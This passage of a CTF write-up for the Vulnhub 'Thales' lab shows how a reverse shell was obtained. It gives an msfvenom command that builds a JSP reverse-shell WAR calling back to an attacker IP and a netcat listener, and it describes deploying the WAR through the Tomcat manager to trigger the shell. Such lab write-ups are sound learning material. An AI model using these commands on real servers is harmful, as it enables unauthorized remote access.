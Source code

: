 ```bash
┌──(emvee㉿kali)-[~]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.0.2.4 LPORT=9999 -f war -o revshell.war
Payload size: 1092 bytes
Final size of war file: 1092 bytes
Saved as: revshell.war
```
After creating the JSP reverse shell as war file I started my netcat listener on port 9999.
```bash
┌──(emvee㉿kali)-[~]
└─$ nc -lvp 9999       
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Since my netcat listener was running I had to upload the reverse shell to the manger.
![Image](/assets/img/WriteUp/Vulnhub/Thales/5.png){: width="700" height="400" }

By clicking on the Deploy button, my war file should be installed on the server. A new directory (revshell) should be added which could trigger my reverse shell.
![Image](/assets/img/WriteUp/Vulnhub/Thales/6.png){: width="700" height="400" }

After deploying my JSP reverse shell to the target, I only had to open the **revshell** directory in a new tab within the web browser. This will activate the reverse shell and my netcat listener should catch the connection. 
